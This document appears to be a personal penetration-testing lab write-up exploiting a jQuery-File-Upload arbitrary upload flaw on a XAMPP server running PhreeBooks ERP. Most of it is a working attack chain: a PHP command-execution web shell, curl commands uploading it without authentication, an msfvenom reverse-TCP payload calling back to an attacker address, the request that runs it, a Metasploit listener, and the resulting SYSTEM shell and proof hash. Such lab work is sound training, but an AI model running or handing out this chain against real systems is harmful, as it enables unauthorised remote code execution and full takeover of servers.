 ## Host Information
* Hostname: xor-app59
* IP: 10.10.1.123 
* Homepage shows XAMPP for Windows 7.3.5
* Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.5
* App uses PhreeBooks/Bizuno ERP (version still needs to be confirmed)
	* Possible Exploits
		* https://www.exploit-db.com/exploits/49524

## Index of /books/apps

![[dir-books-apps.png]]

* Interesting files
	* jquery 3.2.1
	* jquery-file-upload dir
		* https://www.exploit-db.com/exploits/45584
	* jquery-file-download.js
	* PHPMailer (version 5.2.22)

jQuery-File-Upload 9.22.0 - Arbitrary File Upload
===
http://10.11.1.123/books/apps/jquery-file-upload/js/jquery.fileupload.js
![[file-uploader.png]]

**Vulnerability**
```txt
# https://www.exploit-db.com/exploits/45584
# Vulnerability:
# The code in https://github.com/blueimp/jQuery-File-Upload/blob/master/server/php/UploadHandler.php 
# doesn't require any validation to upload files to the server.  It also doesn't exclude file types.  
# This allows for remote code execution.
```

**PHP shell**
```php
/*x.php*/
<?php $cmd=$_GET['cmd']; system($cmd);?>
```

**curl Request to upload shell** 
```shell
curl -F "files=@x.php" http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

**Generate payload**
```shell
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.151 LPORT=9001 -f exe -o r.exe
```

**curl Request to upload the payload**
```shell
curl -F "files=@r.exe" http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

**curl Request to execute payload**
```shell
curl http://10.11.1.123/books/apps/jquery-file-upload/server/php/files/x.php?cmd=r.exe
```


**Listener**
```shell
msfconsole -q -x "use multi/handler; set payload windows/x64/shell/reverse_tcp; set lhost 192.168.119.151; set lport 9001; exploit"
```

**Reverse shell runnning as nt authority\system**
![[xor-app59-shell.png]]

**proof.txt**
```txt
d763662138a1c060aeab1a74752f5ad3
```

![[xor-app59-proof.png]]